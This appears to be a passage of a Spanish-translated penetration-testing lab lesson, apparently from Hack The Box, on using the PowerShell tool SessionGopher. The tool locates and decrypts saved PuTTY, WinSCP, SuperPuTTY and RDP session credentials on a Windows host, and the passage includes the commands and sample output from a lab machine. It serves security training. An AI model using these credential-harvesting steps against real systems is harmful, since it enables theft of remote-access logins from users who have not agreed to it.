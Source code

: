 Podemos usar[Sesiongopher](https://github.com/Arvanaghi/SessionGopher)Para extraer masilla guardada, winscp, filezilla, superputty y credenciales RDP. La herramienta está escrita en PowerShell y busca y descifra la información de inicio de sesión guardada para herramientas de acceso remoto. Se puede ejecutar local o remotamente. Busca el`HKEY_USERS`Hive para todos los usuarios que han iniciado sesión en un host de dominio (o independiente) y busca y descifra cualquier información de sesión guardada que pueda encontrar. También se puede ejecutar para buscar unidades para archivos de claves privadas (.ppk), escritorio remoto (.rdp) y rsa (.sdtid).

#### Ejecutar SessionGopher como usuario actual

Necesitamos acceso local de administrador para recuperar información de sesión almacenada para cada usuario en`HKEY_USERS`, pero siempre vale la pena ejecutarlo como nuestro usuario actual para ver si podemos encontrar alguna credencial útil.

  Robo de credenciales más

```powershell-session
PS C:\htb> Import-Module .\SessionGopher.ps1
 
PS C:\Tools> Invoke-SessionGopher -Target WINLPE-SRV01
 
          o_
         /  ".   SessionGopher
       ,"  _-"
     ,"   m m
  ..+     )      Brandon Arvanaghi
     `m..m       Twitter: @arvanaghi | arvanaghi.com
 
[+] Digging on WINLPE-SRV01...
WinSCP Sessions
 
 
Source   : WINLPE-SRV01\htb-student
Session  : Default%20Settings
Hostname :
Username :
Password :
 
 
PuTTY Sessions
 
 
Source   : WINLPE-SRV01\htb-student
Session  : nix03
Hostname : nix03.inlanefreight.local
 

 
SuperPuTTY Sessions
 
 
Source        : WINLPE-SRV01\htb-student
SessionId     : NIX03
SessionName   : NIX03
Host          : nix03.inlanefreight.local
Username      : srvadmin
ExtraArgs     :
Port          : 22
Putty Session : Default Settings
```

---